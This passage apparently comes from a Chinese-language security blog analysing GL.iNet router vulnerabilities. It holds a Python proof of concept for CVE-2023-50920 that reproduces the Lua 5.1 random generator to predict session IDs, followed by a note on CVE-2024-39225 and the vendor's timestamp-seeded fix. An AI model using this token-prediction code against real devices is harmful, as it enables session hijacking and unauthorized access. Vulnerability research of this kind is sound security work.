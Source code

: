 ```python
#CVE-2023-50920.py
import math
seed = 0
RAND_MAX = 2147483647

def lua51_math_randomseed(s):
    global seed
    seed = s - 1
    
def lua51_math_random(max):
    global seed
    seed = (6364136223846793005*int(seed) + 1)&0xffffffffffffffff
    r =  (seed >> 33)&0xffffffff
    return math.floor(((r%RAND_MAX)/RAND_MAX)*max)+1

def generate_id(n):
    s = []
    t = ["0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z",
        "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z"]
    for i in range(n):
        a = lua51_math_random(len(t))-1
        s.append(t[a])
    return "".join(s)

lua51_math_randomseed(1)
for i in range(5):
    generate_id(32)
    print(generate_id(32))
```



## CVE-2024-39225

随后官方进行了修复，下载 AX1800 Flint v4.5.0 固件解包查看，可以看到在 `/sur/sbin/gl-ngx-seesion` 的 init 函数中初始化了 unix 时间戳为随机数种子。

![](/assets/images/2024-11-04/29.png) 
